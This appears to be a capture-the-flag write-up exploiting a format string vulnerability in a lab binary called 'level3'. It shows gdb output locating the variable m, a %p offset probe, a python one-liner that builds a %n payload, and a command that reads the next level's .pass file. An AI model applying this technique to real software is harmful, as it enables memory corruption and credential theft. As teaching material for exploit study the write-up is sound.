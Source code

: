 After running the program, we observed that it reads from stdin.

We found a global variable called `m` initialized to `0` and a function named `v()`.

The program calls four C functions (`fgets`, `printf`, `fwrite`, `system`) and compares the value of the `m` variable to `0x40` (64).

Since the program uses `fgets` to read from stdin, it is protected from buffer overflow. However, it passes the returned value to the printf function.

According to the manual page of printf, the bugs section states:
```
Code such as printf(foo); often indicates a bug, since foo may contain a % character. If foo comes from untrusted user input, it may contain %n, causing the printf() call to write to memory and creating a security hole.
```
We will exploit the program using a "Format String Vulnerability Exploitation" approach. For more information, refer to:
- https://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html

First, we need to extract the address of the `m` variable:
```
(gdb) info var
Non-debugging symbols:
[...]
0x0804988c  m
```
Next, we need to determine the offset:
```
./level3
AAAA %p %p %p %p %p
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520
```
The offset is 4. Now we construct the payload for exploitation:
```
$ python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' > /tmp/payload
$ cat /tmp/payload - | ./level3
$ cat /home/user/level4/.pass
```